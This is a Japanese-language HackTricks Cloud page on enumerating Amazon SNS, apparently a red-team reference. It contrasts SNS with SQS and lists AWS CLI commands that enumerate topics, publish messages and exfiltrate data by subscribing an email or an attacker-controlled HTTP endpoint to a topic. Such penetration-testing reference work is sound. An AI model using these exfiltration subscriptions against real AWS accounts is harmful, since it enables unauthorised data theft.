 # AWS - SNS Enum

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## SNS

Amazon Simple Notification Service（Amazon SNS）は**完全に管理されたメッセージングサービス**です。**アプリケーション間**（A2A）および**アプリケーションとユーザー間**（A2P）の通信を容易にします。

このサービスのA2A機能には**パブリッシュ/サブスクライブ（pub/sub）メカニズム**が含まれます。これらのメカニズムは**トピック**を提供し、**高スループット、プッシュベース、多対多のメッセージング**を可能にします。これは、分散システム、マイクロサービス、およびイベント駆動型のサーバーレスアプリケーションを含むシナリオで特に有益です。これらのトピックを利用することで、パブリッシャーシステムはメッセージを**多数のサブスクライバーシステムに配信**し、効果的にファンアウトメッセージングパターンを可能にします。

### **SQSとの違い**

**SQS**は**キューベース**のサービスで、**単一のコンシューマー**によってメッセージが処理されることを保証するポイントツーポイント通信を可能にします。**少なくとも一度の配信**を提供し、標準およびFIFOキューをサポートし、リトライや遅延処理のためのメッセージ保持を許可します。\
一方、**SNS**は**パブリッシュ/サブスクライブベースのサービス**で、**複数のサブスクライバー**にメッセージを**同時にブロードキャスト**することで**一対多**の通信を可能にします。**メール、SMS、Lambda関数、HTTP/HTTPS**などのさまざまなサブスクリプションエンドポイントをサポートし、ターゲットメッセージの配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システムのコンポーネント間の切り離しを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンに重点を置いています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、SQSプロトコルを使用するサブスクライバーのみを使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`** で正しいリージョンを指定していないと、アクセス権限がないというエラーが表示される可能性がありますが、問題はリージョンにあることに注意してください。
{% endhint %}

### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 特権昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 攻撃後の処理

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# 参考文献
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
